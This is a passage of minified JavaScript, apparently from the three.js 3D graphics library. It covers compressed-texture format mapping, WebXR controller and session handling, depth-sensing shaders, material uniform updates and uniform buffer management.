t.RG;if(n===ot)return t.RG_INTEGER;if(n===st)return t.RGBA_INTEGER;if(n===lt||n===ct||n===ht||n===ut)if(a===Wt){if(r=e.get("WEBGL_compressed_texture_s3tc_srgb"),null===r)return null;if(n===lt)return r.COMPRESSED_SRGB_S3TC_DXT1_EXT;if(n===ct)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT1_EXT;if(n===ht)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT3_EXT;if(n===ut)return r.COMPRESSED_SRGB_ALPHA_S3TC_DXT5_EXT}else{if(r=e.get("WEBGL_compressed_texture_s3tc"),null===r)return null;if(n===lt)return r.COMPRESSED_RGB_S3TC_DXT1_EXT;if(n===ct)return r.COMPRESSED_RGBA_S3TC_DXT1_EXT;if(n===ht)return r.COMPRESSED_RGBA_S3TC_DXT3_EXT;if(n===ut)return r.COMPRESSED_RGBA_S3TC_DXT5_EXT}if(n===dt||n===pt||n===ft||n===mt){if(r=e.get("WEBGL_compressed_texture_pvrtc"),null===r)return null;if(n===dt)return r.COMPRESSED_RGB_PVRTC_4BPPV1_IMG;if(n===pt)return r.COMPRESSED_RGB_PVRTC_2BPPV1_IMG;if(n===ft)return r.COMPRESSED_RGBA_PVRTC_4BPPV1_IMG;if(n===mt)return r.COMPRESSED_RGBA_PVRTC_2BPPV1_IMG}if(n===gt||n===_t||n===vt){if(r=e.get("WEBGL_compressed_texture_etc"),null===r)return null;if(n===gt||n===_t)return a===Wt?r.COMPRESSED_SRGB8_ETC2:r.COMPRESSED_RGB8_ETC2;if(n===vt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ETC2_EAC:r.COMPRESSED_RGBA8_ETC2_EAC}if(n===yt||n===xt||n===bt||n===Mt||n===St||n===Et||n===wt||n===Tt||n===At||n===Ct||n===Rt||n===Pt||n===Lt||n===Dt){if(r=e.get("WEBGL_compressed_texture_astc"),null===r)return null;if(n===yt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_4x4_KHR:r.COMPRESSED_RGBA_ASTC_4x4_KHR;if(n===xt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_5x4_KHR:r.COMPRESSED_RGBA_ASTC_5x4_KHR;if(n===bt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_5x5_KHR:r.COMPRESSED_RGBA_ASTC_5x5_KHR;if(n===Mt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_6x5_KHR:r.COMPRESSED_RGBA_ASTC_6x5_KHR;if(n===St)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_6x6_KHR:r.COMPRESSED_RGBA_ASTC_6x6_KHR;if(n===Et)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x5_KHR:r.COMPRESSED_RGBA_ASTC_8x5_KHR;if(n===wt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x6_KHR:r.COMPRESSED_RGBA_ASTC_8x6_KHR;if(n===Tt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_8x8_KHR:r.COMPRESSED_RGBA_ASTC_8x8_KHR;if(n===At)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x5_KHR:r.COMPRESSED_RGBA_ASTC_10x5_KHR;if(n===Ct)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x6_KHR:r.COMPRESSED_RGBA_ASTC_10x6_KHR;if(n===Rt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x8_KHR:r.COMPRESSED_RGBA_ASTC_10x8_KHR;if(n===Pt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_10x10_KHR:r.COMPRESSED_RGBA_ASTC_10x10_KHR;if(n===Lt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_12x10_KHR:r.COMPRESSED_RGBA_ASTC_12x10_KHR;if(n===Dt)return a===Wt?r.COMPRESSED_SRGB8_ALPHA8_ASTC_12x12_KHR:r.COMPRESSED_RGBA_ASTC_12x12_KHR}if(n===It||n===Ot||n===Ut){if(r=e.get("EXT_texture_compression_bptc"),null===r)return null;if(n===It)return a===Wt?r.COMPRESSED_SRGB_ALPHA_BPTC_UNORM_EXT:r.COMPRESSED_RGBA_BPTC_UNORM_EXT;if(n===Ot)return r.COMPRESSED_RGB_BPTC_SIGNED_FLOAT_EXT;if(n===Ut)return r.COMPRESSED_RGB_BPTC_UNSIGNED_FLOAT_EXT}if(36283===n||n===Nt||n===Ft||n===kt){if(r=e.get("EXT_texture_compression_rgtc"),null===r)return null;if(n===It)return r.COMPRESSED_RED_RGTC1_EXT;if(n===Nt)return r.COMPRESSED_SIGNED_RED_RGTC1_EXT;if(n===Ft)return r.COMPRESSED_RED_GREEN_RGTC2_EXT;if(n===kt)return r.COMPRESSED_SIGNED_RED_GREEN_RGTC2_EXT}return n===tt?t.UNSIGNED_INT_24_8:void 0!==t[n]?t[n]:null}}}class Jo extends or{constructor(t=[]){super(),this.isArrayCamera=!0,this.cameras=t}}let Qo=class extends Zn{constructor(){super(),this.isGroup=!0,this.type="Group"}};const ts={type:"move"};class es{constructor(){this._targetRay=null,this._grip=null,this._hand=null}getHandSpace(){return null===this._hand&&(this._hand=new Qo,this._hand.matrixAutoUpdate=!1,this._hand.visible=!1,this._hand.joints={},this._hand.inputState={pinching:!1}),this._hand}getTargetRaySpace(){return null===this._targetRay&&(this._targetRay=new Qo,this._targetRay.matrixAutoUpdate=!1,this._targetRay.visible=!1,this._targetRay.hasLinearVelocity=!1,this._targetRay.linearVelocity=new Xe,this._targetRay.hasAngularVelocity=!1,this._targetRay.angularVelocity=new Xe),this._targetRay}getGripSpace(){return null===this._grip&&(this._grip=new Qo,this._grip.matrixAutoUpdate=!1,this._grip.visible=!1,this._grip.hasLinearVelocity=!1,this._grip.linearVelocity=new Xe,this._grip.hasAngularVelocity=!1,this._grip.angularVelocity=new Xe),this._grip}dispatchEvent(t){return null!==this._targetRay&&this._targetRay.dispatchEvent(t),null!==this._grip&&this._grip.dispatchEvent(t),null!==this._hand&&this._hand.dispatchEvent(t),this}connect(t){if(t&&t.hand){const e=this._hand;if(e)for(const n of t.hand.values())this._getHandJoint(e,n)}return this.dispatchEvent({type:"connected",data:t}),this}disconnect(t){return this.dispatchEvent({type:"disconnected",data:t}),null!==this._targetRay&&(this._targetRay.visible=!1),null!==this._grip&&(this._grip.visible=!1),null!==this._hand&&(this._hand.visible=!1),this}update(t,e,n){let i=null,r=null,a=null;const o=this._targetRay,s=this._grip,l=this._hand;if(t&&"visible-blurred"!==e.session.visibilityState){if(l&&t.hand){a=!0;for(const i of t.hand.values()){const t=e.getJointPose(i,n),r=this._getHandJoint(l,i);null!==t&&(r.matrix.fromArray(t.transform.matrix),r.matrix.decompose(r.position,r.rotation,r.scale),r.matrixWorldNeedsUpdate=!0,r.jointRadius=t.radius),r.visible=null!==t}const i=l.joints["index-finger-tip"],r=l.joints["thumb-tip"],o=i.position.distanceTo(r.position),s=.02,c=.005;l.inputState.pinching&&o>s+c?(l.inputState.pinching=!1,this.dispatchEvent({type:"pinchend",handedness:t.handedness,target:this})):!l.inputState.pinching&&o<=s-c&&(l.inputState.pinching=!0,this.dispatchEvent({type:"pinchstart",handedness:t.handedness,target:this}))}else null!==s&&t.gripSpace&&(r=e.getPose(t.gripSpace,n),null!==r&&(s.matrix.fromArray(r.transform.matrix),s.matrix.decompose(s.position,s.rotation,s.scale),s.matrixWorldNeedsUpdate=!0,r.linearVelocity?(s.hasLinearVelocity=!0,s.linearVelocity.copy(r.linearVelocity)):s.hasLinearVelocity=!1,r.angularVelocity?(s.hasAngularVelocity=!0,s.angularVelocity.copy(r.angularVelocity)):s.hasAngularVelocity=!1));null!==o&&(i=e.getPose(t.targetRaySpace,n),null===i&&null!==r&&(i=r),null!==i&&(o.matrix.fromArray(i.transform.matrix),o.matrix.decompose(o.position,o.rotation,o.scale),o.matrixWorldNeedsUpdate=!0,i.linearVelocity?(o.hasLinearVelocity=!0,o.linearVelocity.copy(i.linearVelocity)):o.hasLinearVelocity=!1,i.angularVelocity?(o.hasAngularVelocity=!0,o.angularVelocity.copy(i.angularVelocity)):o.hasAngularVelocity=!1,this.dispatchEvent(ts)))}return null!==o&&(o.visible=null!==i),null!==s&&(s.visible=null!==r),null!==l&&(l.visible=null!==a),this}_getHandJoint(t,e){if(void 0===t.joints[e.jointName]){const n=new Qo;n.matrixAutoUpdate=!1,n.visible=!1,t.joints[e.jointName]=n,t.add(n)}return t.joints[e.jointName]}}class ns{constructor(){this.texture=null,this.mesh=null,this.depthNear=0,this.depthFar=0}init(t,e,n){if(null===this.texture){const i=new ze;t.properties.get(i).__webglTexture=e.texture,e.depthNear==n.depthNear&&e.depthFar==n.depthFar||(this.depthNear=e.depthNear,this.depthFar=e.depthFar),this.texture=i}}getMesh(t){if(null!==this.texture&&null===this.mesh){const e=t.cameras[0].viewport,n=new er({vertexShader:"\nvoid main() {\n\n\tgl_Position = vec4( position, 1.0 );\n\n}",fragmentShader:"\nuniform sampler2DArray depthColor;\nuniform float depthWidth;\nuniform float depthHeight;\n\nvoid main() {\n\n\tvec2 coord = vec2( gl_FragCoord.x / depthWidth, gl_FragCoord.y / depthHeight );\n\n\tif ( coord.x >= 1.0 ) {\n\n\t\tgl_FragDepth = texture( depthColor, vec3( coord.x - 1.0, coord.y, 1 ) ).r;\n\n\t} else {\n\n\t\tgl_FragDepth = texture( depthColor, vec3( coord.x, coord.y, 0 ) ).r;\n\n\t}\n\n}",uniforms:{depthColor:{value:this.texture},depthWidth:{value:e.z},depthHeight:{value:e.w}}});this.mesh=new Yi(new xr(20,20),n)}return this.mesh}reset(){this.texture=null,this.mesh=null}getDepthTexture(){return this.texture}}class is extends oe{constructor(t,e){super();const n=this;let i=null,r=1,a=null,o="local-floor",s=1,l=null,c=null,h=null,u=null,d=null,p=null;const f=new ns,m=e.getContextAttributes();let g=null,_=null;const v=[],y=[],x=new ve;let b=null;const M=new or;M.layers.enable(1),M.viewport=new Be;const S=new or;S.layers.enable(2),S.viewport=new Be;const E=[M,S],w=new Jo;w.layers.enable(1),w.layers.enable(2);let T=null,A=null;function C(t){const e=y.indexOf(t.inputSource);if(-1===e)return;const n=v[e];void 0!==n&&(n.update(t.inputSource,t.frame,l||a),n.dispatchEvent({type:t.type,data:t.inputSource}))}function R(){i.removeEventListener("select",C),i.removeEventListener("selectstart",C),i.removeEventListener("selectend",C),i.removeEventListener("squeeze",C),i.removeEventListener("squeezestart",C),i.removeEventListener("squeezeend",C),i.removeEventListener("end",R),i.removeEventListener("inputsourceschange",P);for(let t=0;t<v.length;t++){const e=y[t];null!==e&&(y[t]=null,v[t].disconnect(e))}T=null,A=null,f.reset(),t.setRenderTarget(g),d=null,u=null,h=null,i=null,_=null,U.stop(),n.isPresenting=!1,t.setPixelRatio(b),t.setSize(x.width,x.height,!1),n.dispatchEvent({type:"sessionend"})}function P(t){for(let e=0;e<t.removed.length;e++){const n=t.removed[e],i=y.indexOf(n);i>=0&&(y[i]=null,v[i].disconnect(n))}for(let e=0;e<t.added.length;e++){const n=t.added[e];let i=y.indexOf(n);if(-1===i){for(let t=0;t<v.length;t++){if(t>=y.length){y.push(n),i=t;break}if(null===y[t]){y[t]=n,i=t;break}}if(-1===i)break}const r=v[i];r&&r.connect(n)}}this.cameraAutoUpdate=!0,this.enabled=!1,this.isPresenting=!1,this.getController=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getTargetRaySpace()},this.getControllerGrip=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getGripSpace()},this.getHand=function(t){let e=v[t];return void 0===e&&(e=new es,v[t]=e),e.getHandSpace()},this.setFramebufferScaleFactor=function(t){r=t,!0===n.isPresenting&&console.warn("THREE.WebXRManager: Cannot change framebuffer scale while presenting.")},this.setReferenceSpaceType=function(t){o=t,!0===n.isPresenting&&console.warn("THREE.WebXRManager: Cannot change reference space type while presenting.")},this.getReferenceSpace=function(){return l||a},this.setReferenceSpace=function(t){l=t},this.getBaseLayer=function(){return null!==u?u:d},this.getBinding=function(){return h},this.getFrame=function(){return p},this.getSession=function(){return i},this.setSession=async function(c){if(i=c,null!==i){if(g=t.getRenderTarget(),i.addEventListener("select",C),i.addEventListener("selectstart",C),i.addEventListener("selectend",C),i.addEventListener("squeeze",C),i.addEventListener("squeezestart",C),i.addEventListener("squeezeend",C),i.addEventListener("end",R),i.addEventListener("inputsourceschange",P),!0!==m.xrCompatible&&await e.makeXRCompatible(),b=t.getPixelRatio(),t.getSize(x),void 0===i.renderState.layers){const n={antialias:m.antialias,alpha:!0,depth:m.depth,stencil:m.stencil,framebufferScaleFactor:r};d=new XRWebGLLayer(i,e,n),i.updateRenderState({baseLayer:d}),t.setPixelRatio(1),t.setSize(d.framebufferWidth,d.framebufferHeight,!1),_=new Ve(d.framebufferWidth,d.framebufferHeight,{format:nt,type:j,colorSpace:t.outputColorSpace,stencilBuffer:m.stencil})}else{let n=null,a=null,o=null;m.depth&&(o=m.stencil?e.DEPTH24_STENCIL8:e.DEPTH_COMPONENT24,n=m.stencil?rt:it,a=m.stencil?tt:K);const s={colorFormat:e.RGBA8,depthFormat:o,scaleFactor:r};h=new XRWebGLBinding(i,e),u=h.createProjectionLayer(s),i.updateRenderState({layers:[u]}),t.setPixelRatio(1),t.setSize(u.textureWidth,u.textureHeight,!1),_=new Ve(u.textureWidth,u.textureHeight,{format:nt,type:j,depthTexture:new ra(u.textureWidth,u.textureHeight,a,void 0,void 0,void 0,void 0,void 0,void 0,n),stencilBuffer:m.stencil,colorSpace:t.outputColorSpace,samples:m.antialias?4:0,resolveDepthBuffer:!1===u.ignoreDepthValues})}_.isXRRenderTarget=!0,this.setFoveation(s),l=null,a=await i.requestReferenceSpace(o),U.setContext(i),U.start(),n.isPresenting=!0,n.dispatchEvent({type:"sessionstart"})}},this.getEnvironmentBlendMode=function(){if(null!==i)return i.environmentBlendMode},this.getDepthTexture=function(){return f.getDepthTexture()};const L=new Xe,D=new Xe;function I(t,e){null===e?t.matrixWorld.copy(t.matrix):t.matrixWorld.multiplyMatrices(e.matrixWorld,t.matrix),t.matrixWorldInverse.copy(t.matrixWorld).invert()}this.updateCamera=function(t){if(null===i)return;let e=t.near,n=t.far;null!==f.texture&&(f.depthNear>0&&(e=f.depthNear),f.depthFar>0&&(n=f.depthFar)),w.near=S.near=M.near=e,w.far=S.far=M.far=n,T===w.near&&A===w.far||(i.updateRenderState({depthNear:w.near,depthFar:w.far}),T=w.near,A=w.far);const r=t.parent,a=w.cameras;I(w,r);for(let t=0;t<a.length;t++)I(a[t],r);2===a.length?function(t,e,n){L.setFromMatrixPosition(e.matrixWorld),D.setFromMatrixPosition(n.matrixWorld);const i=L.distanceTo(D),r=e.projectionMatrix.elements,a=n.projectionMatrix.elements,o=r[14]/(r[10]-1),s=r[14]/(r[10]+1),l=(r[9]+1)/r[5],c=(r[9]-1)/r[5],h=(r[8]-1)/r[0],u=(a[8]+1)/a[0],d=o*h,p=o*u,f=i/(-h+u),m=f*-h;if(e.matrixWorld.decompose(t.position,t.quaternion,t.scale),t.translateX(m),t.translateZ(f),t.matrixWorld.compose(t.position,t.quaternion,t.scale),t.matrixWorldInverse.copy(t.matrixWorld).invert(),-1===r[10])t.projectionMatrix.copy(e.projectionMatrix),t.projectionMatrixInverse.copy(e.projectionMatrixInverse);else{const e=o+f,n=s+f,r=d-m,a=p+(i-m),h=l*s/n*e,u=c*s/n*e;t.projectionMatrix.makePerspective(r,a,h,u,e,n),t.projectionMatrixInverse.copy(t.projectionMatrix).invert()}}(w,M,S):w.projectionMatrix.copy(M.projectionMatrix),function(t,e,n){null===n?t.matrix.copy(e.matrixWorld):(t.matrix.copy(n.matrixWorld),t.matrix.invert(),t.matrix.multiply(e.matrixWorld));t.matrix.decompose(t.position,t.quaternion,t.scale),t.updateMatrixWorld(!0),t.projectionMatrix.copy(e.projectionMatrix),t.projectionMatrixInverse.copy(e.projectionMatrixInverse),t.isPerspectiveCamera&&(t.fov=2*he*Math.atan(1/t.projectionMatrix.elements[5]),t.zoom=1)}(t,w,r)},this.getCamera=function(){return w},this.getFoveation=function(){if(null!==u||null!==d)return s},this.setFoveation=function(t){s=t,null!==u&&(u.fixedFoveation=t),null!==d&&void 0!==d.fixedFoveation&&(d.fixedFoveation=t)},this.hasDepthSensing=function(){return null!==f.texture},this.getDepthSensingMesh=function(){return f.getMesh(w)};let O=null;const U=new vr;U.setAnimationLoop((function(e,r){if(c=r.getViewerPose(l||a),p=r,null!==c){const e=c.views;null!==d&&(t.setRenderTargetFramebuffer(_,d.framebuffer),t.setRenderTarget(_));let n=!1;e.length!==w.cameras.length&&(w.cameras.length=0,n=!0);for(let i=0;i<e.length;i++){const r=e[i];let a=null;if(null!==d)a=d.getViewport(r);else{const e=h.getViewSubImage(u,r);a=e.viewport,0===i&&(t.setRenderTargetTextures(_,e.colorTexture,u.ignoreDepthValues?void 0:e.depthStencilTexture),t.setRenderTarget(_))}let o=E[i];void 0===o&&(o=new or,o.layers.enable(i),o.viewport=new Be,E[i]=o),o.matrix.fromArray(r.transform.matrix),o.matrix.decompose(o.position,o.quaternion,o.scale),o.projectionMatrix.fromArray(r.projectionMatrix),o.projectionMatrixInverse.copy(o.projectionMatrix).invert(),o.viewport.set(a.x,a.y,a.width,a.height),0===i&&(w.matrix.copy(o.matrix),w.matrix.decompose(w.position,w.quaternion,w.scale)),!0===n&&w.cameras.push(o)}const r=i.enabledFeatures;if(r&&r.includes("depth-sensing")){const n=h.getDepthInformation(e[0]);n&&n.isValid&&n.texture&&f.init(t,n,i.renderState)}}for(let t=0;t<v.length;t++){const e=y[t],n=v[t];null!==e&&void 0!==n&&n.update(e,r,l||a)}O&&O(e,r),r.detectedPlanes&&n.dispatchEvent({type:"planesdetected",data:r}),p=null})),this.setAnimationLoop=function(t){O=t},this.dispose=function(){}}}const rs=new In,as=new Sn;function os(t,e){function n(t,e){!0===t.matrixAutoUpdate&&t.updateMatrix(),e.value.copy(t.matrix)}function i(t,i){t.opacity.value=i.opacity,i.color&&t.diffuse.value.copy(i.color),i.emissive&&t.emissive.value.copy(i.emissive).multiplyScalar(i.emissiveIntensity),i.map&&(t.map.value=i.map,n(i.map,t.mapTransform)),i.alphaMap&&(t.alphaMap.value=i.alphaMap,n(i.alphaMap,t.alphaMapTransform)),i.bumpMap&&(t.bumpMap.value=i.bumpMap,n(i.bumpMap,t.bumpMapTransform),t.bumpScale.value=i.bumpScale,1===i.side&&(t.bumpScale.value*=-1)),i.normalMap&&(t.normalMap.value=i.normalMap,n(i.normalMap,t.normalMapTransform),t.normalScale.value.copy(i.normalScale),1===i.side&&t.normalScale.value.negate()),i.displacementMap&&(t.displacementMap.value=i.displacementMap,n(i.displacementMap,t.displacementMapTransform),t.displacementScale.value=i.displacementScale,t.displacementBias.value=i.displacementBias),i.emissiveMap&&(t.emissiveMap.value=i.emissiveMap,n(i.emissiveMap,t.emissiveMapTransform)),i.specularMap&&(t.specularMap.value=i.specularMap,n(i.specularMap,t.specularMapTransform)),i.alphaTest>0&&(t.alphaTest.value=i.alphaTest);const r=e.get(i),a=r.envMap,o=r.envMapRotation;a&&(t.envMap.value=a,rs.copy(o),rs.x*=-1,rs.y*=-1,rs.z*=-1,a.isCubeTexture&&!1===a.isRenderTargetTexture&&(rs.y*=-1,rs.z*=-1),t.envMapRotation.value.setFromMatrix4(as.makeRotationFromEuler(rs)),t.flipEnvMap.value=a.isCubeTexture&&!1===a.isRenderTargetTexture?-1:1,t.reflectivity.value=i.reflectivity,t.ior.value=i.ior,t.refractionRatio.value=i.refractionRatio),i.lightMap&&(t.lightMap.value=i.lightMap,t.lightMapIntensity.value=i.lightMapIntensity,n(i.lightMap,t.lightMapTransform)),i.aoMap&&(t.aoMap.value=i.aoMap,t.aoMapIntensity.value=i.aoMapIntensity,n(i.aoMap,t.aoMapTransform))}return{refreshFogUniforms:function(e,n){n.color.getRGB(e.fogColor.value,Qi(t)),n.isFog?(e.fogNear.value=n.near,e.fogFar.value=n.far):n.isFogExp2&&(e.fogDensity.value=n.density)},refreshMaterialUniforms:function(t,r,a,o,s){r.isMeshBasicMaterial||r.isMeshLambertMaterial?i(t,r):r.isMeshToonMaterial?(i(t,r),function(t,e){e.gradientMap&&(t.gradientMap.value=e.gradientMap)}(t,r)):r.isMeshPhongMaterial?(i(t,r),function(t,e){t.specular.value.copy(e.specular),t.shininess.value=Math.max(e.shininess,1e-4)}(t,r)):r.isMeshStandardMaterial?(i(t,r),function(t,e){t.metalness.value=e.metalness,e.metalnessMap&&(t.metalnessMap.value=e.metalnessMap,n(e.metalnessMap,t.metalnessMapTransform));t.roughness.value=e.roughness,e.roughnessMap&&(t.roughnessMap.value=e.roughnessMap,n(e.roughnessMap,t.roughnessMapTransform));e.envMap&&(t.envMapIntensity.value=e.envMapIntensity)}(t,r),r.isMeshPhysicalMaterial&&function(t,e,i){t.ior.value=e.ior,e.sheen>0&&(t.sheenColor.value.copy(e.sheenColor).multiplyScalar(e.sheen),t.sheenRoughness.value=e.sheenRoughness,e.sheenColorMap&&(t.sheenColorMap.value=e.sheenColorMap,n(e.sheenColorMap,t.sheenColorMapTransform)),e.sheenRoughnessMap&&(t.sheenRoughnessMap.value=e.sheenRoughnessMap,n(e.sheenRoughnessMap,t.sheenRoughnessMapTransform)));e.clearcoat>0&&(t.clearcoat.value=e.clearcoat,t.clearcoatRoughness.value=e.clearcoatRoughness,e.clearcoatMap&&(t.clearcoatMap.value=e.clearcoatMap,n(e.clearcoatMap,t.clearcoatMapTransform)),e.clearcoatRoughnessMap&&(t.clearcoatRoughnessMap.value=e.clearcoatRoughnessMap,n(e.clearcoatRoughnessMap,t.clearcoatRoughnessMapTransform)),e.clearcoatNormalMap&&(t.clearcoatNormalMap.value=e.clearcoatNormalMap,n(e.clearcoatNormalMap,t.clearcoatNormalMapTransform),t.clearcoatNormalScale.value.copy(e.clearcoatNormalScale),1===e.side&&t.clearcoatNormalScale.value.negate()));e.dispersion>0&&(t.dispersion.value=e.dispersion);e.iridescence>0&&(t.iridescence.value=e.iridescence,t.iridescenceIOR.value=e.iridescenceIOR,t.iridescenceThicknessMinimum.value=e.iridescenceThicknessRange[0],t.iridescenceThicknessMaximum.value=e.iridescenceThicknessRange[1],e.iridescenceMap&&(t.iridescenceMap.value=e.iridescenceMap,n(e.iridescenceMap,t.iridescenceMapTransform)),e.iridescenceThicknessMap&&(t.iridescenceThicknessMap.value=e.iridescenceThicknessMap,n(e.iridescenceThicknessMap,t.iridescenceThicknessMapTransform)));e.transmission>0&&(t.transmission.value=e.transmission,t.transmissionSamplerMap.value=i.texture,t.transmissionSamplerSize.value.set(i.width,i.height),e.transmissionMap&&(t.transmissionMap.value=e.transmissionMap,n(e.transmissionMap,t.transmissionMapTransform)),t.thickness.value=e.thickness,e.thicknessMap&&(t.thicknessMap.value=e.thicknessMap,n(e.thicknessMap,t.thicknessMapTransform)),t.attenuationDistance.value=e.attenuationDistance,t.attenuationColor.value.copy(e.attenuationColor));e.anisotropy>0&&(t.anisotropyVector.value.set(e.anisotropy*Math.cos(e.anisotropyRotation),e.anisotropy*Math.sin(e.anisotropyRotation)),e.anisotropyMap&&(t.anisotropyMap.value=e.anisotropyMap,n(e.anisotropyMap,t.anisotropyMapTransform)));t.specularIntensity.value=e.specularIntensity,t.specularColor.value.copy(e.specularColor),e.specularColorMap&&(t.specularColorMap.value=e.specularColorMap,n(e.specularColorMap,t.specularColorMapTransform));e.specularIntensityMap&&(t.specularIntensityMap.value=e.specularIntensityMap,n(e.specularIntensityMap,t.specularIntensityMapTransform))}(t,r,s)):r.isMeshMatcapMaterial?(i(t,r),function(t,e){e.matcap&&(t.matcap.value=e.matcap)}(t,r)):r.isMeshDepthMaterial?i(t,r):r.isMeshDistanceMaterial?(i(t,r),function(t,n){const i=e.get(n).light;t.referencePosition.value.setFromMatrixPosition(i.matrixWorld),t.nearDistance.value=i.shadow.camera.near,t.farDistance.value=i.shadow.camera.far}(t,r)):r.isMeshNormalMaterial?i(t,r):r.isLineBasicMaterial?(function(t,e){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,e.map&&(t.map.value=e.map,n(e.map,t.mapTransform))}(t,r),r.isLineDashedMaterial&&function(t,e){t.dashSize.value=e.dashSize,t.totalSize.value=e.dashSize+e.gapSize,t.scale.value=e.scale}(t,r)):r.isPointsMaterial?function(t,e,i,r){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,t.size.value=e.size*i,t.scale.value=.5*r,e.map&&(t.map.value=e.map,n(e.map,t.uvTransform));e.alphaMap&&(t.alphaMap.value=e.alphaMap,n(e.alphaMap,t.alphaMapTransform));e.alphaTest>0&&(t.alphaTest.value=e.alphaTest)}(t,r,a,o):r.isSpriteMaterial?function(t,e){t.diffuse.value.copy(e.color),t.opacity.value=e.opacity,t.rotation.value=e.rotation,e.map&&(t.map.value=e.map,n(e.map,t.mapTransform));e.alphaMap&&(t.alphaMap.value=e.alphaMap,n(e.alphaMap,t.alphaMapTransform));e.alphaTest>0&&(t.alphaTest.value=e.alphaTest)}(t,r):r.isShadowMaterial?(t.color.value.copy(r.color),t.opacity.value=r.opacity):r.isShaderMaterial&&(r.uniformsNeedUpdate=!1)}}}function ss(t,e,n,i){let r={},a={},o=[];const s=t.getParameter(t.MAX_UNIFORM_BUFFER_BINDINGS);function l(t,e,n,i){const r=t.value,a=e+"_"+n;if(void 0===i[a])return i[a]="number"==typeof r||"boolean"==typeof r?r:r.clone(),!0;{const t=i[a];if("number"==typeof r||"boolean"==typeof r){if(t!==r)return i[a]=r,!0}else if(!1===t.equals(r))return t.copy(r),!0}return!1}function c(t){const e={boundary:0,storage:0};return"number"==typeof t||"boolean"==typeof t?(e.boundary=4,e.storage=4):t.isVector2?(e.boundary=8,e.storage=8):t.isVector3||t.isColor?(e.boundary=16,e.storage=12):t.isVector4?(e.boundary=16,e.storage=16):t.isMatrix3?(e.boundary=48,e.storage=48):t.isMatrix4?(e.boundary=64,e.storage=64):t.isTexture?console.warn("THREE.WebGLRenderer: Texture samplers can not be part of an uniforms group."):console.warn("THREE.WebGLRenderer: Unsupported uniform value type.",t),e}function h(e){const n=e.target;n.removeEventListener("dispose",h);const i=o.indexOf(n.__bindingPointIndex);o.splice(i,1),t.deleteBuffer(r[n.id]),delete r[n.id],delete a[n.id]}return{bind:function(t,e){const n=e.program;i.uniformBlockBinding(t,n)},update:function(n,u){let d=r[n.id];void 0===d&&(!function(t){const e=t.uniforms;let n=0;const i=16;for(let t=0,r=e.length;t<r;t++){const r=Array.isArray(e[t])?e[t]:[e[t]];for(let t=0,e=r.length;t<e;t++){const e=r[t],a=Array.isArray(e.value)?e.value:[e.value];for(let t=0,r=a.length;t<r;t++){const r=c(a[t]),o=n%i,s=o%r.boundary,l=o+s;n+=s,0!==l&&i-l<r.storage&&(n+=i-l),e.__data=new Float32Array(r.storage/Float32Array.BYTES_PER_ELEMENT),e.__offset=n,n+=r.storage}}}const r=n%i;r>0&&(n+=i-r);t.__size=n,t.__cache={}}(n),d=function(e){const n=function(){for(let t=0;t<s;t++)if(-1===o.indexOf(t))return o.push(t),t;return console.error("THREE.WebGLRenderer: Maximum number of simultaneously usable uniforms groups reached."),0}();e.__bindingPointIndex=n;const i=t.createBuffer(),r=e.__size,a=e.usage;return t.bindBuffer(t.UNIFORM_BUFFER,i),t.bufferData(t.UNIFORM_BUFFER,r,a),t.bindBuffer(t.UNIFORM_BUFFER,null),t.bindBufferBase(t.UNIFORM_BUFFER,n,i),i}(n),r[n.id]=d,n.addEventListener("dispose",h));const p=u.program;i.updateUBOMapping(n,p);const f=e.render.frame;a[n.id]!==f&&(!function(e){const n=r[e.id],i=e.uniforms,a=e.__cache;t.bindBuffer(t.UNIFORM_BUFFER,n);for(let e=0,n=i.length;e<n;e++){const n=Array.isArray(i[e])?i[e]:[i[e]];for(let i=0,r=n.length;i<r;i++){const r=n[i];if(!0===l(r,e,i,a)){const e=r.__offset,n=Array.isArray(r.value)?r.value:[r.value];let i=0;for(let a=0;a<n.length;a++){const o=n[a],s=c(o);"number"==typeof o||"boolean"==typeof o?(r.__data[0]=o,t.bufferSubData(t.UNIFORM_BUFFER,e+i,r.__data)):o.isMatrix3?(r.__data[0]=o.elements[0],r.__data[1]=o.elements[1],r.__data[2]=o.elements[2],r.__data[3]=0,r.__data[4]=o.elements[3],r.__data[5]=o.elements[4],r.__data[6]=o.elements[5],r.__data[7]=0,r.__data[8]=o.elements[6],r.__data[9]=o.elements[7],r.__data[10]=o.elements[8],r.__data[11]=0):(o.toArray(r.__data,i),i+=s.storage/Float32Array.BYTES_PER_ELEMENT)}t.bufferSubData(t.UNIFORM_BUFFER,e,r.__data)}}}t.bindBuffer(t.UNIFORM_BUFFER,null)}(n),a[n.id]=f)},dispose:function(){for(const e in r)t.deleteBuffer(r[e]);o=[],r={},a={}}}}class ls extends mi{constructor(t){super(),this.isLineBasicMaterial=!0,this.type="LineBasicMaterial",this.color=new di(16777215),this.map=null,this.linewidth=1,this.linecap="round",this.linejoin="round",this.fog=!0,this.setValues(t)}copy(t){return super.copy(t),this.color.copy(t.color),this.map=t.map,this.linewidth=t.linewidth,this.linecap=t.linecap,this.linejoin=t.linejoin,this.fog=t.fog,this}}const cs=new Xe,hs=new Xe,us=new Sn,ds=new Mn,ps=new fn,fs=new Xe,ms=new Xe;function gs(t,e,n,i,r,a){const 